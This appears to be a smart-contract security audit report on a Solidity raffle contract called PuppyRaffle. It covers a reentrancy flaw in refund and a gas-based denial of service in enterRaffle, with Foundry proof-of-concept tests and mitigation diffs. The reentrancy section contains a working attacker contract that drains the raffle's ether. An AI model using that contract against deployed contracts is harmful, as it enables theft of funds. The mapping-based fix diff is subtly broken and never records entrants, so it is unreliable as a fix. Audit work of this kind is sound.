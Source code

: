 ### [H-1] Executing a reentrancy attack from an external contract allows to drain all the ether deposited in the raffle.

IMPACT: HIGH
LIKELIHOOD: HIGH

**Description:** The function `PupplyRaffle::refund` can be attacked using reentrancy.

**Impact:** All contract funds can be drained ejecuting reentrancy in the `PupplyRaffle::refund` function.

**Proof of Concept:** 

If 100 users enters de raffle, and a malicious contract enters after and requests the refund executing reentrancy, all the funds will be drained.

- PuppyRaffle balance before attack: 100
- ReentrancyAttacker balance before attack: 1
  
- PuppyRaffle balance after attack: 0
- ReentrancyAttacker balance after attack: 101

<details>
<summary>PoC</summary>
Place the following test and contract at `PuppyRaffleTest.t.sol`

```javascript
    function test_reentracyRefund() public {
        ReentrancyAttacker reentrancyAttackerContract;
        reentrancyAttackerContract = new ReentrancyAttacker(puppyRaffle);
        vm.deal(address(reentrancyAttackerContract), 1 ether);

        // Let´s enter 100 players
        uint256 playersNumber = 100;
        address[] memory players = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            players[i] = address(i);
        }
        
        // Enter 100 players to the raffle
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(players);

        // Check balance before the attack
        console.log("PuppyRaffle balance before attack:", address(puppyRaffle).balance / 1e18);
        console.log("ReentrancyAttacker balance before attack:", address(reentrancyAttackerContract).balance / 1e18);
        console.log("-------------------");

        // Reentrancy attack contract starts the attack
        reentrancyAttackerContract.attack();

        // Check balance after attack
        console.log("PuppyRaffle balance after attack:", address(puppyRaffle).balance / 1e18);
        console.log("ReentrancyAttacker balance after attack:", address(reentrancyAttackerContract).balance / 1e18);
        console.log("-------------------");

        // Check the reentrancy attack count
        console.log("Reentrancy attack count:", reentrancyAttackerContract.attackCount());

        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(reentrancyAttackerContract).balance, 101 ether);
        assertEq(reentrancyAttackerContract.attackCount(), 101);
    }

    contract ReentrancyAttacker {
        PuppyRaffle puppyRaffleContract;
        uint256 public entraceFee;
        uint256 public playerIndex;
        
        uint256 public attackCount;

        constructor(PuppyRaffle _puppyRaffleContract) {
            puppyRaffleContract = _puppyRaffleContract;
            entraceFee = puppyRaffleContract.entranceFee();
        }

        function attack() public {
            // Enter the raffle
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyRaffleContract.enterRaffle{value: entraceFee}(players);
            // Refund the entrance fee & start attack
            playerIndex = puppyRaffleContract.getActivePlayerIndex(address(this));
            puppyRaffleContract.refund(playerIndex);
        }

        function _stealMoney() internal {
            attackCount++;
            if (address(puppyRaffleContract).balance >= entraceFee) {
                puppyRaffleContract.refund(playerIndex);
            }
        }

        receive() external payable {
            _stealMoney();
        }

        fallback() external payable {
            _stealMoney();
        }
    }
```
</details>

**Recommended Mitigation:** There are several ways to fix the reentrancy.

- Using CEI (Check - Effect - Interaction) Pattern.
```diff
    function refund(uint256 playerIndex) public {
+       // Check
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       // Effect
-       payable(msg.sender).sendValue(entranceFee);
+       players[playerIndex] = address(0);

+       // Interaction
-       players[playerIndex] = address(0);
+       payable(msg.sender).sendValue(entranceFee);
        
        emit RaffleRefunded(playerAddress);
    }
```

- Using lock boolean as execution function condition.
```diff
+   boolean locked;
    function refund(uint256 playerIndex) public {
+       require(!locked, "Reentrancy is locked");
+       locked = true;
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        
        emit RaffleRefunded(playerAddress);
+       locked = false;
    }
```

- Using Openzeppelin ReentrancyGuard Contract (https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)
  

### [M-1] Looping through player array to check for duplicates in the  `PupplyRaffle::enterRaffle` is a potencial denial of servide (DoS) attack, incrementing gas cost for future entrants.

IMPACT: MEDIUM
LIKELIHOOD: MEDIUM

**Description:** The `PupplyRaffle::enterRaffle` funciton loops through the `PupplyRaffle::players` array to check for duplicates. However, the longer the `PupplyRaffle::players` is the more check a new player will have to make. This means that the gas cost for players who entry early will be dramatically lower than those who enter late. Every aditional player entry in the array increase the gas cost of the transaction.

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouragin later users from entering, and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker might make the `PupplyRaffle::players` array so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas cost will be such:

- 1st 100 players: ~6503265 gas.
- 2nd 100 players: ~18995512 gas.

This is more than 3x time expensive for the second 100 players set.

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
    function test_dnialOfService() public {
        // Let´s enter 100 players
        uint256 playersNumber = 100;
        address[] memory players = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            players[i] = address(i);
        }
        
        // Set a non-zero gas price for this test
        uint256 customGasPrice = 1 gwei;
        vm.txGasPrice(customGasPrice);
        
        // see how much gas it takes to enter 100 players
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsed = gasStart - gasEnd;
        uint256 gasCost = gasUsed * tx.gasprice;
        
        console.log("Gas cost for 100 players:", gasCost / 1e9);

        // Now for the second 100 players
        address[] memory playersTwo = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            playersTwo[i] = address(i + playersNumber);
        }
        
        // see how much gas it takes to enter 100 players
        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(playersTwo);
        uint256 gasEndTwo = gasleft();
        uint256 gasUsedTwo = gasStartTwo - gasEndTwo;
        uint256 gasCostTwo = gasUsedTwo * tx.gasprice;
        
        console.log("Gas used for sencond 100 players:", gasCostTwo / 1e9);
    }
```
</details>
  
**Recommended Mitigation:** There are few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+ uint256 public raffleId;
+ mapping(address => uint256) public addressToRaffleId;

constructor(uint256 _entranceFee, address _feeAddress, uint256 _raffleDuration) ERC721("Puppy Raffle", "PR") {
        entranceFee = _entranceFee;
        feeAddress = _feeAddress;
        raffleDuration = _raffleDuration;
        raffleStartTime = block.timestamp;

        rarityToUri[COMMON_RARITY] = commonImageUri;
        rarityToUri[RARE_RARITY] = rareImageUri;
        rarityToUri[LEGENDARY_RARITY] = legendaryImageUri;

        rarityToName[COMMON_RARITY] = COMMON;
        rarityToName[RARE_RARITY] = RARE;
        rarityToName[LEGENDARY_RARITY] = LEGENDARY;

+       raffleId = 1;
    }

function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
-    for (uint256 i = 0; i < newPlayers.length; i++) {
-        players.push(newPlayers[i]);
-    }
    for (uint256 i = 0; i < players.length - 1; i++) {
-        for (uint256 j = i + 1; j < players.length; j++) {
-            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-        }
+       require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       players.push(newPlayers[i]);
    }
}

function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply();

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+      raffleId++;
    }
```